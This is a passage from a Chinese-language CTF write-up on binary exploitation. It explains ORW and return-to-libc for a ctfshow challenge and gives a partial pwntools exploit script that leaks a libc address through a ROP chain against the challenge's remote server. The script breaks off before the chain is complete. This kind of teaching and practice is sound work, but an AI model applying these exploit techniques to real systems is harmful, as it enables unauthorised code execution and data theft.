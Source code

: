 ```python
asm(shellcode)
```

最后再用**asm()**包裹 shellcode的汇编代码，生成字节码，一个shellcode就完成啦！

### 例题演示2：

来自ctfshow摆烂杯—CET4

![image-20211230000520954](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a1830afdd9532da9287147ad1e4a172e1f4e98e0.png)

只开了NX保护，

![image-20211229223027477](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6b85b590f3e8c71c3b9e45a0b5ec6f0462869259.png)

这道题已知libc版本，

#### 方法一：

因为已知libc，所以可以先泄露got表函数地址，然后return\_to\_libc，利用libc函数构造ROP链，执行 **ORW** 获取flag。

##### 思路：

先向bss段写入flag字符串，然后利用open函数（参数是flag字符串、0、0）打开flag，然后再利用read函数（参数是文件指针=0x3，bss段地址，100）读取open函数打开的flag文件中的数据，这里有一个隐藏知识，**open函数打开的第一个文件的fd指针一般都为0x3**，最后用write函数（参数是1，bss段地址，100）将read读取到的数据显示到屏幕上。

##### Exp:

```python
from pwn import *
context.log_level = 'debug'

#p = process('./CET4')
p = remote('pwn.challenge.ctf.show',28188)
e = ELF('./CET4')

def sla(signal, content):
  p.sendlineafter(signal, content)

def rn(signal):
  p.recvuntil(signal)

def r_a64(signal):
  return u64(p.recvuntil(signal)[-6:].ljust(8,'\x00'))

rn(':')
p.send('\x00'*8)
puts_plt = e.plt['puts']
puts_got = e.got['puts']
pop_rdi = 0x4013d3
payload = 'a' * 0x48 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(0x401290)
sla('\n', payload)
puts_add = r_a64('\x7f')
print(hex(puts_add))

libc = ELF("./libc6_2.30-0ubuntu2_amd64.so")
libc_base = puts_add - libc.symbols['puts']
read = libc_base + libc.symbols['read']
write = libc_base + libc.symbols['write']
open  = libc_base + libc.symbols['open']
success('libc_base:' + hex(libc_base))

rn(':')
p.send('\x00'*8)
pop_rdi = 0x4013d3
bss = 0x404260
```